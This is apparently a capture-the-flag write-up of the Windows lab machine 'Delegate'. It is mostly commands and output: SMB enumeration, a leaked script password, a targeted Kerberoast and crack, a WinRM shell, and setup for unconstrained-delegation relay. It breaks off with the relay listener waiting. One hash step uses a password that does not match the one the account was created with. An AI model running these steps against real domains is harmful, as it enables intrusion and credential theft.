

<br />


<br />

OS -> Windows.

Difficulty -> Medium.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start by running an `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,47001,49664,49665,49666,49667,49668,49670,54023,64755,65501,65502,65507,65519 10.129.34.106 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-07 20:13 CET
Nmap scan report for 10.129.34.106
Host is up (0.044s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-07 19:13:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC1.delegate.vl
| Not valid before: 2026-01-06T19:09:14
|_Not valid after:  2026-07-08T19:09:14
|_ssl-date: 2026-01-07T19:15:06+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: DELEGATE
|   NetBIOS_Domain_Name: DELEGATE
|   NetBIOS_Computer_Name: DC1
|   DNS_Domain_Name: delegate.vl
|   DNS_Computer_Name: DC1.delegate.vl
|   DNS_Tree_Name: delegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-01-07T19:14:26+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
54023/tcp open  msrpc         Microsoft Windows RPC
64755/tcp open  msrpc         Microsoft Windows RPC
65501/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
65502/tcp open  msrpc         Microsoft Windows RPC
65507/tcp open  msrpc         Microsoft Windows RPC
65519/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-01-07T19:14:30
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.32 seconds
```

<br />

Relevant open ports:

- `Port 53`   -> dns

- `Port 88`   -> kerberos

- `Port 135`  -> rpc

- `Port 139`  -> netbios

- `Port 389`  -> ldap

- `Port 445`  -> smb

- `Port 464`  -> kpasswd (kerberos password change)

- `Port 593`  -> rpc over http

- `Port 636`  -> ldaps

- `Port 3389` -> rdp

- `Port 5985` -> winrm

<br />

The domain `delegate.vl` and the hostname `DC1.delegate.vl` appear across multiple services and ports, so we add them to our `/etc/hosts` file:

<br />

```bash
10.129.34.106 delegate.vl DC1.delegate.vl
```

<br />

# SMB Enumeration - Port 445 

<br />

To start enumerating this service, we'll run a basic [NetExec](https://github.com/Pennyw0rth/NetExec) one-liner to gather some information about the Windows system that we're auditing:

<br />

```bash
❯ nxc smb delegate.vl
SMB         10.129.34.106   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
```

<br />

The target is a Windows Server 2022, a version without any publicly known vulnerabilities or relevant CVEs.

A null session using a random username allows us to list shared resources:

<br />

```bash
❯ nxc smb delegate.vl -u "RANDOM" -p "" --shares
SMB         10.129.34.106   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.34.106   445    DC1              [+] delegate.vl\RANDOM: (Guest)
SMB         10.129.34.106   445    DC1              [*] Enumerated shares
SMB         10.129.34.106   445    DC1              Share           Permissions     Remark
SMB         10.129.34.106   445    DC1              -----           -----------     ------
SMB         10.129.34.106   445    DC1              ADMIN$                          Remote Admin
SMB         10.129.34.106   445    DC1              C$                              Default share
SMB         10.129.34.106   445    DC1              IPC$            READ            Remote IPC
SMB         10.129.34.106   445    DC1              NETLOGON        READ            Logon server share 
SMB         10.129.34.106   445    DC1              SYSVOL          READ            Logon server share
```

<br />

By accessing the `NETLOGON` share using smbclient, there is a bat script called `users.bat`:

<br />

```bash
❯ smbclient //delegate.vl/NETLOGON -U ""
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 26 14:45:24 2023
  ..                                  D        0  Sat Aug 26 11:45:45 2023
  users.bat                           A      159  Sat Aug 26 14:54:29 2023

		4652287 blocks of size 4096. 1095039 blocks available
smb: \> get users.bat 
getting file \users.bat of size 159 as users.bat (0,9 KiloBytes/sec) (average 0,9 KiloBytes/sec)
```

<br />

Inside the scriptm, we find an interesting Active Directory username and a password:

`User`: A.Briggs

`Password`: P4ssw0rd1#123

<br />

```bash
❯ /usr/bin/cat users.bat
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator P4ssw0rd1#123
```

<br />

Netexec confirmed that these credentials are valid for the SMB service:

<br />

```bash
❯ nxc smb delegate.vl -u a.briggs -p 'P4ssw0rd1#123'
SMB         10.129.34.106   445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.34.106   445    DC1              [+] delegate.vl\a.briggs:P4ssw0rd1#123
```

<br />

However, they did not work for WinRM or RDP.

This means that we can use this session to gather interesting Active Directory data with tools such as `BloodHound`.

<br />

## BloodHound

<br />

Normally, we use `bloodhound-python` for the data extraction process, instead, we will use `Netexec`:

<br />

```bash
❯ nxc ldap delegate.vl -u a.briggs -p 'P4ssw0rd1#123' --bloodhound -c All --dns-server 10.129.34.106
LDAP        10.129.34.106   389    DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.34.106   389    DC1              [+] delegate.vl\a.briggs:P4ssw0rd1#123 
LDAP        10.129.34.106   389    DC1              Resolved collection methods: trusts, session, container, rdp, localadmin, psremote, acl, objectprops, group, dcom
LDAP        10.129.34.106   389    DC1              Done in 0M 10S
LDAP        10.129.34.106   389    DC1              Compressing output into /home/theredp4nther/.nxc/logs/DC1_10.129.34.106_2026-01-07_204000_bloodhound.zip
```

<br />

The data was extracted without any problem.

<br />

### GenericWrite 

<br />

Once inside BloodHound, we marked the `A.Briggs` principal as owned and the `Shortest paths from Owned objects` query revealed a critical missconfiguration:

<br />


<br />

As we can see, the user `A.Briggs` has `GenericWrite` permissions over a user called `N.Thompson`.


This user is a member of the `Remote Management Users` group. If we compromise this account, we will be able to authenticate via `WinRM` to the target machine.

<br />



<br />

This excessive permission can be exploited in several different ways.

<br />

# Targeted Kerberoast

<br />

At this point, we proceed with a targeted kerberoast attack. This attack allows us to extract the Kerberos TGS hash of the targeted account, in this case `N.Thompson`.

It can be done using the well-known [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) tool with the following one-liner:

<br />

```bash
❯ python3 targetedKerberoast.py -v -d 'delegate.vl' -u 'A.Briggs' -p 'P4ssw0rd1#123'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (N.Thompson)
[+] Printing hash for (N.Thompson)
$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$1790a75e80fb8e9a9cb76a706310051e$b6e610e73ca5fe2942aaee50f7243a204f4a57bd5f73e5c5bf2760733042decb64998849bc0adb17251508faac5245c1878cfe14dd77b3c3004de7e23efb0ff5ebe975d84e89fcfd2397810aed011e37503dffca81dbb8ac57a7c29c2c7ccf9d4f180cb30ba9b1a349452512bc5ca628646450f7c4c0acf5425d14f37ddc8d9b944738dd597659712c94db60fc7daa9bf0d1bc446092746c69302c62b6e46fffa44b0a7b6039879691b4c832afc6d1dade163707c222bce3fdf2feb0faf10717cbba892ae01c00d01fe7c650ad2226a0df176f01689bad009ed56a085c2c77759d56faf7df2b994719f7358e3b857d3ba8185b4f2534d13f8d731cbbc43773054323dd3001c7554b1c1fb998b8085fd5ab992d1ea16a64386f3db59865714491c7bdf37285f58eb0d3cf632ef5a5f5f2c3ac656f9e83bc0261143d8b623458557eaab82ac120844bad83e68bc55ba13c254df4b3df8de1dfed24771ae3e4fe5fbad294478245c4d0956a913e311eca7881e61e66b361644ed4663d5d5dc53d6b5427ecd8d53f3ac548028b87c2ab0d489b7be5179d892d1fed14ad3f18c853d168b68250487ffd8db0688ceecb46c00151821792e02ec7b598dce1c105f7a8a62b9b8ec733960a090a1b948f79e87ccae1a2b152d37774b7f13d0b1e5016039f3f71726b9c0e2a9686f00440aacb3c247b1017d45fa6c3db1173858e400f2345df744fdc4b1f8aecb94bafcc9b2239db0f92f4ad517cbba30cc5d0e951d338e6c0823806c2b3d4f996081dce739bdb574e9a10c6bbe989284e6a36d4fdb5ddbe4b6be94395877b1a6e6e8b14713a118cc2702694858b30a7343bba46f063afb2fb93ff07fa266e7c702b9da81dc7e95174464f5ed54eb902a3c3c070a1d66d3a64933f36ff025ba1b02ae2c472a544d825acfaacbf5e56acf2cd4bd49a6f31e8ebce35c911015c988a49429704baf6c97b3c24eda18ce5269226da3db4ead1649c4c853051e538731e75fa62e2932afac336cdb9bcb172b954fca200d42fd6e70feb076dd031913186fe3e55e9d8baeaee90156b37319212b0c31f12724f7705dba5423e526d88a3bc9fd8a00ec5a03a2b6e66386447e7f26aa3b9a423912002d6e33d504b2e66692675c179893690027e127d4eba2660cdaf1247ecc9c33e4afb473e158c108742d95643a41d606134227d7287ba36412562870e19b8fe3ccb6efd46bba1c3e63035624e792f459a0f70c30b090be8be213dfdb6d1e71eb2984f4d66052b4a251f6047b66e378ce58b026fc5998bf249ac98cad4ac3e9e8d65f419b68114f0d647479d4d5645745cd441d04ee84ab444480b3b7e587cdb6a7bb0192648f180e6ee39ef6d3e9bb57efd2b7fe4a055fbea1e172f607dc8175537fae5aad182744820c10cada6494dcb203cf33bcd7baffe450f0d97781f6d281f96ed685d
[VERBOSE] SPN removed successfully for (N.Thompson)
```

<br />

The hash was trivial to crack using John the Ripper brute-force tool:

<br />

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
KALEB_2341       (?)     
1g 0:00:00:06 DONE (2026-01-07 21:21) 0.1589g/s 1749Kp/s 1749Kc/s 1749KC/s KANEE15..KAB`12345
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

<br />

Plaintext password: `KALEB_2341`

These credentials allow us to authenticate via WinRM as the `N.Thompson` user:

<br />

```bash
❯ evil-winrm -i delegate.vl -u n.thompson -p 'KALEB_2341'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> whoami
delegate\n.thompson
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> hostname
DC1
```

<br />

We can now retrieve the `user.txt` flag:

<br />

```bash
*Evil-WinRM* PS C:\Users\N.Thompson\Desktop> type user.txt
0f9d65e8478c465ded16c8f9f7xxxxxx
```

<br />

# Privilege Escalation: N.Thompson -> Administrator

<br />

This user has interesting privileges:

<br />

```bash
*Evil-WinRM* PS C:\Users\N.Thompson\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                                    State
============================= ============================================================== =======
SeMachineAccountPrivilege     Add workstations to domain                                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                                       Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                                 Enabled
```

<br />

The `SeEnableDelegationPrivilege` is enabled. This privilege in Windows allows a service account to delegate credentials from a client to other services in a domain.

<br />

# Delegation abuse

<br />

The attack is divided into three phases, let's go with the first one.

<br />

## Check MachineAccountQuota 

<br />

Since MachineAccountQuota was set to its default value of 10, it was possible to create a new computer account and abuse delegation to continue the attack.

This value can be extracted by running the Netexec `maq` module:

<br />

```bash
❯ nxc ldap delegate.vl -u a.briggs -p 'P4ssw0rd1#123' -M maq
LDAP        10.129.34.106   389    DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.34.106   389    DC1              [+] delegate.vl\a.briggs:P4ssw0rd1#123 
MAQ         10.129.34.106   389    DC1              [*] Getting the MachineAccountQuota
MAQ         10.129.34.106   389    DC1              MachineAccountQuota: 10
```

<br />

## Host setup

<br />

Now, we need to setup the host where we will capture the Administrator authentication.

First, we create the DNS record (a fake host to trick the target machine):

<br />

```bash
❯ addcomputer.py -computer-name theredp4nther -computer-pass 'Red123!' -dc-ip 10.129.34.106 delegate.vl/N.Thompson:'KALEB_2341'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account theredp4nther$ with password Red123!.
```

<br />

Then, we add this DNS record:

<br />

```bash
❯ python3 dnstool.py -u 'delegate.vl\theredp4nther$' -p 'Red123!' --action add --record theredp4nther.delegate.vl --data 10.10.14.253 --type A -dns-ip 10.129.34.106 dc1.delegate.vl
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

<br />

The dns records was sucessfully added. Let's assign a SPN to this record:

<br />

```bash
❯ python3 addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/theredp4nther.delegate.vl' -t 'theredp4nther$' -dc-ip 10.129.34.106 dc1.delegate.vl --additional
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

<br />

It worked. Finally, we set the unconstrained delegation to the host:

<br />

```bash
❯ bloodyAD -d delegate.vl -u N.Thompson -p KALEB_2341 --host dc1.delegate.vl add uac 'theredp4nther$' -f TRUSTED_FOR_DELEGATION
[+] ['TRUSTED_FOR_DELEGATION'] property flags added to theredp4nther$'s userAccountControl
```

<br />

## Capture authentication

<br />

The authentication will be capture with `krbrealyx` impacket tool. However, to use it, we need to obtain before the NTLM hash of the computer password:

```bash
❯ python -c "password = 'theredp4nther'; import hashlib; print(hashlib.new('md4', password.encode('utf-16le')).hexdigest())"
4fea147a5c9c6a101ac85f05b3d14cdb
```

<br />

Now, we can start it:

<br />

```bash
❯ python3 krbrelayx.py -hashes 4fea147a5c9c6a101ac85f05b3d14cdb
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Running in export mode (all tickets will be saved to disk). Works with unconstrained delegation attack only.
[*] Running in unconstrained delegation abuse mode using the specified credentials.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80

[*] Setting up DNS Server
[*] Servers started, waiting for connections
```

<br />
